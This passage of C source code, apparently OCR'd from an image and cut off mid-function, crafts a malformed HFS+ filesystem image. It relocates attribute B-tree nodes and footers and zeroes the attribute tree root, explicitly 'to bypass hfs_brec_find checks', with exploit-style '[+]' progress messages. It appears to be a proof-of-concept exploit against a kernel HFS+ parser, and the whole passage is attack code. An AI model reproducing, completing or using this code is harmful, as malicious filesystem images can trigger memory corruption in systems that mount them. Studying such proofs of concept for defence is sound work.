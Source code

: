 ```
    unsigned char *dest_address_node = hfs_buffer + attr_tree_start_address_base + (2 * 0x8000 - 0x10);

    memcpy(dest_address_node, &footer_node, 0x10);


    /* The node footer has to go to the new place */
    unsigned char *src_address_data = hfs_buffer + attr_tree_start_address_base + 0x2000;
    unsigned char *dest_address_data = hfs_buffer + attr_tree_start_address_base + 0x8000;

    printf("\tOriginal attribute records at: 0x%lx\n", (unsigned long)src_address_data);
    printf("\tNew attribute records at: 0x%lx\n", (unsigned long)dest_address_data);

    memcpy(dest_address_data, src_address_data, 0x200);
}

void remove_root(unsigned char *hfs_buffer, size_t len)
{
    struct hfsplus_vh *hfs_vh = (struct hfsplus_vh *)(hfs_buffer+0x400);
    size_t blocksize = be32toh(hfs_vh->blocksize);
    size_t attr_tree_start_address_base = be32toh(hfs_vh->attr_file.extents->start_block) * blocksize;
    size_t attr_tree_start_address = attr_tree_start_address_base + sizeof(struct hfs_bnode_desc);
    struct hfs_btree_header_rec *attr_tree = (struct hfs_btree_header_rec *)(hfs_buffer+attr_tree_start_address);

    printf("[+] Removing root to bypass hfs_brec_find checks\n");

    printf("\tRoot: 0x%x\n", be32toh(attr_tree->root));

    /* Let's zero out the root to bypass checks */

